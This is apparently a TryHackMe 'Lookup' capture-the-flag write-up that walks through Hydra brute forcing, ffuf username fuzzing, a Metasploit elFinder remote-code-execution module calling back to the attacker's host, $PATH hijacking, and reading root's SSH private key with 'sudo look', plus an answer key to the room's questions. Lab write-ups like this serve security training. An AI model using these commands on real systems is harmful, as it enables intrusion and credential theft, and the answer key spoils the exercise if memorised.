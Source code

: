 # Lookup | TryHackMe

## Overview
- **Room:** Lookup  
- **Difficulty:** easy  
- **Tags:** Web, Fuzzing, Hydra, PrivEsc  

---

## Enumeration

### Nmap
```bash
nmap -sC -sV -oN <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP  

---

### Web Enumeration
Visited `http://<IP>/` → login page.  

Tested `admin:admin` → username valid, password invalid.  

---

### Brute-force
Used Hydra for password guessing:  
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```
No success.  

Then fuzzed for other usernames with ffuf:  
```bash
ffuf -u http://<IP>/login -d "username=FUZZ&password=test" -X POST -w /usr/share/wordlists/common.txt -fr "Invalid username"
```
Discovered user: **jose**  

Brute-forced again with Hydra:  
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```
Success: `jose : password123`  

---

## Exploitation

Logged in as jose.  

Discovered subdomain `files.lookup.thm`. Added to `/etc/hosts`.  

Accessed `http://files.lookup.thm/` → running **elFinder** file manager.  

Identified version vulnerable to RCE. Used Metasploit:  
```bash
msfconsole
search elfinder
use exploit/multi/http/elfinder_php_connector_exec
set RHOSTS files.lookup.thm
set RPORT 80
set TARGETURI /
set LHOST <your_IP>
run
```
Got shell as `www-data`.  

---

## Privilege Escalation

Ran `linpeas.sh` → found process `pwn` running as root.  

Binary reads `$PATH`. Exploit with fake `id`:  
```bash
echo "/bin/sh" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```
Now `pwn` executes `/tmp/id` → shell as **think**.  

---

### From think to root
Checked sudo:  
```bash
sudo -l
```
Allowed to run `look`. Checked GTFOBins → `look` can read files.  

```bash
sudo look '' /root/.ssh/id_rsa
```
Extracted root’s private key, logged in as root.  

---

## Flags
- **User.txt** → `/home/think/user.txt`  
- **Root.txt** → `/root/root.txt`  

---

## Answers to Room Questions
1. **What valid username was discovered?** → `jose`  
2. **What was jose’s password?** → `password123`  
3. **Which vulnerable app was running on the subdomain?** → `elFinder`  
4. **What binary was abused for privilege escalation?** → `pwn`  
5. **What command allowed root private key extraction?** → `sudo look`  

---

## Lessons Learned
- Username fuzzing can reveal hidden accounts.  
- Subdomain discovery is key to hidden services.  
- `$PATH` hijacking remains a powerful PrivEsc method.  
- GTFOBins is invaluable for exploiting sudo misconfigs.  
